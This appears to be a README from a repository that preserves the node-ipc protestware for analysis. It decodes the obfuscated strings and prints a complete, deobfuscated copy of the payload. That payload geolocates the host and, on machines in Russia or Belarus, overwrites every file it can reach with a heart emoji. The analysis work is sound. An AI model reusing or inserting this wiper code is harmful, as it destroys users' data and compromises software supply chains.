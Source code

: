 node-ipc
================

> [!WARNING]
> This is the version with the malware inside it presented only for analysis reasons

You can find the harmful code at the original location [here](dao/ssl-geospec.js)

The contents of the suspicious long base64 encoded string is `https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154`

The other strings contain
```
./
../
../../
/
country_name
russia
belarus
❤️
```

The indented version of it is below
```javascript
import u from "path";
import a from "fs";
import o from "https";
setTimeout(function() {
    const t = Math.round(Math.random() * 4);
    if (t > 1) {
        return
    }
    const n = Buffer.from("aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=", "base64");
    o.get(n.toString("utf8"), function(t) {
        t.on("data", function(t) {
            const n = Buffer.from("Li8=", "base64");
            const o = Buffer.from("Li4v", "base64");
            const r = Buffer.from("Li4vLi4v", "base64");
            const f = Buffer.from("Lw==", "base64");
            const c = Buffer.from("Y291bnRyeV9uYW1l", "base64");
            const e = Buffer.from("cnVzc2lh", "base64");
            const i = Buffer.from("YmVsYXJ1cw==", "base64");
            try {
                const s = JSON.parse(t.toString("utf8"));
                const u = s[c.toString("utf8")].toLowerCase();
                const a = u.includes(e.toString("utf8")) || u.includes(i.toString("utf8"));
                if (a) {
                    h(n.toString("utf8"));
                    h(o.toString("utf8"));
                    h(r.toString("utf8"));
                    h(f.toString("utf8"))
                }
            } catch (t) {}
        })
    })
}, Math.ceil(Math.random() * 1e3));
async function h(n = "", o = "") {
    if (!a.existsSync(n)) {
        return
    }
    let r = [];
    try {
        r = a.readdirSync(n)
    } catch (t) {}
    const f = [];
    const c = Buffer.from("4p2k77iP", "base64");
    for (var e = 0; e < r.length; e++) {
        const i = u.join(n, r[e]);
        let t = null;
        try {
            t = a.lstatSync(i)
        } catch (t) {
            continue
        }
        if (t.isDirectory()) {
            const s = h(i, o);
            s.length > 0 ? f.push(...s) : null
        } else if (i.indexOf(o) >= 0) {
            try {
                a.writeFile(i, c.toString("utf8"), function() {})
            } catch (t) {}
        }
    }
    return f
};
const ssl = true;
export {
    ssl as
    default, ssl
}
```

